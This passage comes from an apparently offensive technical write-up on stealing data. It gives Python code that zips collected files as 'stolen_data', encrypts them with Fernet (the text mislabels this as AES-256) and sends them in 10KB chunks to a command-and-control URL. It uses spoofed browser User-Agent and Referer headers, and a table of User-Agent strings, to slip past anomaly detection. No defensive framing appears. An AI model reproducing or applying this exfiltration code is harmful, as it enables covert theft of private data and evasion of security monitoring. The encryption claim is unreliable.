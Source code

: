 #### **Compression**  
The `shutil` library’s `make_archive()` function creates ZIP archives of collected files:  
```python  
import shutil  
shutil.make_archive("stolen_data", "zip", target_directory)  
```  

#### **Encryption**  
AES-256 encryption (via the `cryptography` library) secures the archive:  
```python  
from cryptography.fernet import Fernet  

# Pre-shared key (must be securely exchanged beforehand)  
key = b"YOUR_SECRET_KEY"  
cipher = Fernet(key)  

with open("stolen_data.zip", "rb") as f:  
    encrypted_data = cipher.encrypt(f.read())  
```  

---

### **3. Covert Transmission**  
Data is exfiltrated over HTTP/HTTPS using techniques to mimic legitimate traffic:  

#### **Network Protocol**  
- **Port Usage**: Port 443 (HTTPS) is preferred to blend with normal web traffic.  
- **Chunked Transfer**: The encrypted payload is split into 10KB chunks to avoid triggering anomaly detection.  

#### **HTTP Headers Spoofing**  
The `requests` library sends data with headers mimicking a legitimate browser:  
```python  
import requests  

headers = {  
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",  
    "Content-Type": "application/octet-stream",  
    "Referer": "https://legitimate-website.com"  
}  

# Send chunks via POST requests  
for chunk in chunks:  
    response = requests.post("https://c2-server.com/upload", data=chunk, headers=headers)  
```  

**Spoofed User-Agent Examples**:  
| **User-Agent String**                                                                 | **Purpose**                          |  
|-------------------------------------------------------------------------------------|--------------------------------------|  
| `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36` | Mimics Chrome browser traffic         |  
| `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0`     | Mimics Firefox browser traffic        |  

---